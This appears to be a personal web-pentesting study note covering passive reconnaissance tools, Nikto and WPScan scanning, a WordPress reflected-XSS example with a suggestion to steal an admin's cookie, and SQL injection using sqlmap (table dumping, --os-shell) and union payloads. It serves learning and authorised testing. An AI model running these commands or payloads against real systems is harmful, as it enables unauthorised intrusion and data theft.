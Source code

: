 # Web

**OWASP Testing guide**

[Testing guide](https://owasp.org/www-project-web-security-testing-guide/)

[Testing Checklist](http://github.com/0xRadi/OWASP-Web-Checklist)

## Passive

**Whois**
The Name Provider service (GoDaddy, NameCheap) have DNSSec feature that prevent leak the infomation of the target from trace with `whois`

```sh
host <HOST>
whatweb <HOST>
whois <HOST>
whois <IP>

dnsrecon -d <HOST>

wafw00f -l
wafw00f <HOST> -a

sublist3r -d <HOST>
theHarvester -d <HOST>
theHarvester -d <HOST> -b all
```

**Nikto**: Web server scanning
- `nikto --help`
- `nikto -h http://<target_ip>` Basic scan
    - `-o nikto html -Format htm` Html output
    
**Web recon with OWASP Amass**:
- [github repo](https://github.com/owasp-amass/amass)
- Simple enumeration: `amass enum -d zonetransfer.me`
    - `-passive` Passive enum
    - `amass enum -d zonetransfer.me -src -ip -brute -dir /path/to/output` Brute force subdomain
- `amass intel -d zonetransfer.me -active -src -ip -dir /path/to/outp ut`
    - `-whois` Using whois utility
- `amass viz -dir /path/to/output -d3` Visualize format

## Exploit Reflected XSS Vulnerbility in WordPress

WP using plugin to implement feature and stuff. Plugin may have vulns, important to check plugins of Wordpress

[WPScan](https://wpscan.com/)
- `sudo apt install wpscan`
- `wpscan --url <target_url>` - Basic enumeration
    - `--enumeration p --plugins-detection aggressive` - Passive enumeration and aggressive plugin detection.
    - `--api-token <ur_token>` Insert the api token to be able to vulns scan

Example:
- WordPress Plugin Relevanssi 4.0.4 have [vuln](https://www.exploit-db.com/exploits/44366) ~ Reflected XSS
- Need user admin to click on the malicous link that we create
- We can level up the vulns script by steal the cookie of admin user and use that for gain access to the target.

## SQLi

Auto scan with ZAP

Get the request that contain SQL, and send it to `FUZZ`
- Select where you want to inject the payload, add the FUZZ
- Run and check the request have a `reflected`

![Type of SQLi](./Assets/image_5.png)

In-band SQL injections - The attacker use the same communication channel to send and recivce the results
- Example: SQLi on login page - The error return on the login page as well

Error-base: Relies on intentionally causing database errors and using the error messages returned by the database to extract information of gain access.

[SQLMAP](https://sqlmap.org/)
- `sudo apt-get install sqlmap`
- `sqlmap -u "http://demo.ine.local/dosearch.php" --data "<data_exploit>" -p <parameter> --method POST`
- Alternitive, Save the request from burpsuite and run.
    - `sqlmap -r <request_file> -p <parameter> --technique=E`
    - `--technique=E` Error base.
    - For bug-bounty and pentest - set the risk level and provided level is 1
- If sqlmap identified the vulns, further attack can be perform
    - `--current-db` get current db name
    - `-D <database>` Select the db -> `-D <database> --tables` -> List table
    - `-D <database> -T <tables> --dump` Dump the table
    - `--os-shell` If shell available, open shell

Union-based: Using Union operation, the attacker inject additional `select` statement through the vulnerble input to retrive the data.

**Example**:
- If search text have vuln, and exploit is `'or 1 = 1 --`
- Base on response of the web, to see the table have how many column
    - `'or 1 = 1 union select 1,2,3,4,5` Check until the page responsed.
